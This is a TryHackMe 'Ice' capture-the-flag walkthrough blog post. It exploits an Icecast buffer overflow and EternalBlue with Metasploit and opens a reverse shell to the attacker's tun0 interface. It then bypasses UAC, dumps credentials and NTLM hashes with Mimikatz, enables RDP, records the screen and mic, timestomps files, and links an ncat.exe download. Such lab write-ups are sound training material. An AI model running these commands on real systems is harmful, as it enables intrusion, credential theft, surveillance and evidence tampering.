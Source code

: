 ```yaml
---
layout: post
title: "TryHackMe - Ice"
date: 2023-07-08 15:30:00 -0000
categories: priv esc metasploit mimikatz
excerpt: "Standard Nmap and Metasploit with mimikatz thrown into the mix for fun. Vulnerability and exploit research, privilege escalation, RDP sessions, and a few tricks to spy on the target."
featured_image: "/assets/images/thm-ice/thm-ice-hero.png"
---
```


## Recon  

**Nmap service scan**  

```  
nmap -sV -vv $IP 
```  

![](/assets/images/thm-ice/thm-ice-nmap-sv.png)  

> This room covers the service running on port 8000 (Icecast).  


**Nmap vulnerability scan**  

``` 
nmap -script=vuln -vv $IP   
```  
![](/assets/images/thm-ice/thm-ice-nmap-script-vuln.png)  

> This box is also vulnerable to Eternal Blue (ms17-010) CVE-2017-0143.  

## Research the exploit. The room wants us to research a specific CVE from 2004. 

**cvedetails.com results for "Icecast"**  

![](/assets/images/thm-ice/thm-ice-cvedetails-icecast.png)  

> Hmmm... No CVE results from 2004.

**exploit-db.com results for "Icecast"**  

![](/assets/images/thm-ice/thm-ice-exploitdb-icecast.png)  

> The correct CVE is linked in the exploit-db results (2004-10-6 or 2004-10-12)

**ChatGPT results for Icecast vulnerabilities from 2004**  

![](/assets/images/thm-ice/thm-ice-chatgpt-icecast-2004.png)  

> We now know the CVE in question is CVE-2004-1561.  

**cvedetails.com results for CVE-2004-1561**  

![](/assets/images/thm-ice/thm-ice-cvedetails-cve-2014-1561.png)  

> The vulnerability allows us to "Execute Code" by leveraging a buffer "Overflow".  

**Digging a bit deeper... searchsploit results for "Icecast"**  
![](/assets/images/thm-ice/thm-ice-searchsploit.png)  

**View the exploit**

```  
cat /usr/share/exploitdb/exploits/windows_x86/remote/16763.rb
```  

## Exploit

**Metasploit search results for "icecast"**  
![](/assets/images/thm-ice/thm-ice-metasploit-search-icecast.png)  

**Metasploit command**  

```  
msfconsole -x "use exploit/windows/http/icecast_header;setg RHOSTS $IP;setg LHOST tun0;run"
```  

> Note tun0 may not be the only tun interface. Run 'ip addr' to view interfaces, command above may need tun1.  

**The exploit has ran. Get our user ID and view the icecast process**  
![](/assets/images/thm-ice/thm-ice-meterpreter-ps.png)  
> We get the same PID if we run getpid. That process is us.

**View all processes**  
![](/assets/images/thm-ice/thm-ice-meterpreter-ps-regular.png)  

## Elevate our privileges  

**View our privileges**  
```  
getprivs
```  
![](/assets/images/thm-ice/thm-ice-meterpreter-getprivs-1.png)

**Get suggested exploits**  

```  
run post/multi/recon/local_exploit_suggester
```  

![](/assets/images/thm-ice/thm-ice-meterpreter-local-suggestions.png)  

**Use a suggested exploit**  

```  
use exploit/windows/local/bypassuac_eventvwr
```  

![](/assets/images/thm-ice/thm-ice-metasploit-bypassuac-eventvwr.png)  

**Once the exploit has ran, view our sessions, 2 is elevated**  

![](/assets/images/thm-ice/thm-ice-metasploit-sessions.png)  

**Our user ID is the same as in the un-elevated session**  

![](/assets/images/thm-ice/thm-ice-meterpreter-getuid.png)

**Our privileges in the elevated session are different**  

![](/assets/images/thm-ice/thm-ice-meterpreter-getprivs-2.png)  

**View processes in the elevated session. Notice different results between sessions? Our privileged shell can view owners of all processes**  

![](/assets/images/thm-ice/thm-ice-meterpreter-ps-elevated.png)  

**Migrate to another process**  

![](/assets/images/thm-ice/thm-ice-meterpreter-migrate.png)

**Load Mimikatz aka Kiwi**  

![](/assets/images/thm-ice/thm-ice-meterpreter-load-kiwi.png)  


**Get credentials**  
![](/assets/images/thm-ice/thm-ice-mimikatz-creds-all.png)  

**Dump the hashes with "hashdump"**  

```  
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Dark:1000:aad3b435b51404eeaad3b435b51404ee:7c4fe5eada682714a036e39378362bab:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```  

**Spin up an RDP session utilizing the user Dark's credentials to authenticate**  

```  
run post/windows/manage/enable_rdp
```  
> This opens the RDP port and starts the service on the target if not already enabled.  

```  
rdesktop $IP
```  
> Remote desktop, just give it an IP. This command is ran on the localhost of course.  

![](/assets/images/thm-ice/thm-ice-rdesktop.png)  

**View the target's desktop in real time in a browser window.**  

```  
screenshare
```  

![](/assets/images/thm-ice/thm-mimikatz-screenshare.png)  

**Mess with timestamps.**  

```  
timestomp desktop.ini -m "07/08/2023 15:30:00"
```  

![](/assets/images/thm-ice/thm-ice-timestomp.png)  

**Record audio from the taget device's microphone.**  

```  
record_mic
```  
> Don't think this works on this box...

**Create a Kerberos golden ticket to take you where you're going in life...**  

```  
golden_ticket_create
```  
> load kiwi is required for this command.  Also, this box isn't domain joined.  

**Let's p0wn the box using the eternal blue exploit**  

```  
msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;setg RHOSTS $IP;setg LHOST tun0;run"
```  

> Ridiculously EZ.  

![](/assets/images/thm-ice/thm-ice-metasploit-eternal-blue.png)  

**Here's an exploit to try out and work on...**  

Icecast 2.0.1 (Win32) - Remote Code Execution (1) 

https://www.exploit-db.com/exploits/568  

**Here's a copy of ncat.exe in case we want to rewrite the exploit...**  

[https://timsonner.com/ncat.exe](/ncat.exe)  

# Donezo Funzo.











